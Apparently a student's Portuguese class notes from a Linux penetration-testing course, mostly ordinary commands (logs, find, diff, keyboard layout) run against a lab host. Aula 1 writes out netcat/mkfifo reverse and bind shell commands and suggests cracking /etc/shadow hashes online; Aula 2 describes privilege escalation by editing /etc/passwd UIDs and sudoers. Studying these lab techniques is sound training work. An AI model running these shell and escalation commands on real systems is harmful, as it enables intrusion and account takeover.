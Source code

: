 									



@@@@@@@@@@@@@@@@@@AULA 1@@@@@@@@@@@@@@@@@
192.168.122.43

bizu:
em linux os logs ficam na pasta /var/log/syslog
head - lista as 10 primeiras linhas
tail - lista as 10 últimas linhas

====alterar teclado=======
Layout de teclado para ABNT2 - Configuração no Ubuntu (modo texto)

mudar senha do root

$sudo passwd root

1. No terminal, digite como root:

# nano /etc/default/console-setup
# Troque pelo editor de sua preferência

2. Procure a seguinte linha:

    XKBLAYOUT 
3. Altere para br, se o teclado for ABNT2:
de:
XKBLAYOUT="br"  # Layout do teclado (tipo ABNT2=br ou americano=us)
para: 
XKBLAYOUT="ABNT2=br"  

4. Salve a alteração e reinicie. 

===========CONEXÃO CRIPTOGRAFADA SSH=========

ssh msfadmin@192.168.122.43 (((( ssh usuario@IP_alvo  ))))

em seguida deve digitrar a senha, todo o trafego fica criptografado, conexão segura

======BUSCANDO LOGS NA PASTA VAR======
pasta apache contuma ter a access.log

=======VERIFICAR ASSINATURA DE ARQUIVO VIA SSH=======
pode usar o comando "file" para tentar abrir um arquivo, ele irá verificar a assinatura do arquivo
antes de abrir, assim da pra confirmar se a extensão do arquivo está correta

ex: um arquivo log.txt teve a extensão alterada par log.jpg, o comando file identifica a asiinatura, não a extensão
	#file log.jpg       
	#log.jpg: ASCII text


=======varredura verificando direitos=========
ls -lah

/etc/passwd
cat passwd == vc verá os usuários do pc

/etc/shadow
cat shadow == vc vai achar o hash das senhas dos usuário, com eles vc tenta quebrar as senhas com algumas ferramentas, até onlines
ex: crackstation.com

=======comparar conteudos de um 'arquivo de outro===
dif
ex: diff envmsfadmin.txt envroot.txt
também usado para achar diferenças em log

======criar variavel de ambiente no linux======
pode ser usado para alterar alguma variável de ambiente q algum programa use


======shell reverso - o atacante busca o alvo ======= ( a ordem do scrpit pode ser invertida, essa ordem é ideal pq vc não precisa fornecer
 seu ip, alem da porta do alvo ficar disponível mesmo q ele troque de ip)

ALVO - lado do servidor ( a máquina que fornecerá o shell, basicamente ter um script rodando isso em background)
ALVO COM IP PÚBLICO
rm -f /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc -nlvp localhost 4444 > /tmp/f  

ATACANTE - lado do cliente ( a maquina que atacou, vai puxar o shell)

nc -nv 192.168.122.171(IP público do alvo) 4444

===========shell reverso - o alvo busca o atacante==========

ALVO COM IP PRIVADO
(((ISSO É UM BASH))))
ALVO
rm -f /tmp/f
mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc -nlvp 192.168.122.171(ip_público_atacante) 4444 > /tmp/f  

ATACANTE
nc -nv localhost 4444

@@@@@@@@@@@@@@@@@@@AULA 2@@@@@@@@@@@@@@@@@@@@@@@@

VERIFICAR DIREITO DE ARQUIVO

#ls -lah /etc/passwd

=============ESCALAR PRIVILÉGIO:==========
usuarioteste:x:1002:1002:teste,teste,teste,:/home/usuarioteste:/bin/bash
CASO EU CONSIGA EDITAR O /etc/passwd , basta trocar onde estiver "1002:1002" em "0:0" que 
ele será transformado em root.

OBS: a permissão "/bin/bash" deve ser procurada em usuários com senha fraca.

CASO VC NÃO CONSIGA ABRIR O PASSWD, VC PODE DIRECIONAR UMA SAÍDA DO CAT PARA UM ARQUIVO 
EM UM DIRETÓRIO QUE VC TENHA DIREITO

$cat /etc/passwd > /home/Aluno/secreto.txt ( o arquivo criado irá herdar os direitos do passwd )

OBS: dar direitos usando o chmod, atente para a tabela de codigos decimais, 777, libera tudo para
proprietario, grupo e outros
#chmod 732 passwd


ESCALAR PREVILEGIO:

ALTERAR O /etc/sudoers.d

coloque igual ao do root para o usuário que deseja escalar
ALL=(ALL:ALL) ALL



@@@@@@@@@@@@@@@@AULA 3@@@@@@@@@@@@@@@@@@

====PROCURAR ARQUIVOS COM PERMISSÃO DESEJADA======
#find . -type f -perm 0740
OBS: 0750 , 0777 , TB SÃO ÚTEIS

=====PROCURAR POR ARQUIVOS OCULTOS=====
#find /etc -type f -name ".*"

======PROCURA ARQUIVOS POR PROPRIETÁRIO===
#find . -user msfadmin

======PROCURA ARQUIVOS POR PROPRIETÁRIO E TIPO===
#find . -user msfadmin -name '*.txt'

=====PROCURA POR ARQUIVOS DO GRUPO ROOT====
#find / -group adm
#find /var/www -group www-data  (((apache)))

====PROCURA ARQUIVOS Q FORAM MODIFICADOS NOS ULTIMOS DIAS, NO CASO 5 DIAS===
#find / -mtime 5

===ACESSADOS NO ULTIMOS 5 DIAS====
#find / -atime 5


==FAZENDO BUSCA E EXECUTAR ALGO EM SEGUIDA===
#find / -name "*.pdf" -type f -exec ls - lah {} \;



@@@@@@@REVISAO@@@@@@@


SO LINUX
- Escalação de Privilégios
	permições privilegiadas
		#sudo -l  ou  id
		chmod 750 (o q significa)
		como dar direitos (permissões especiais)
	


- Permissões Especiais (SUID, SGID, Sticky-bit)
- SUDO
- COMANDO PARA SABER QUEM EU SOU E O Q POSSO: sudo -l  ou id


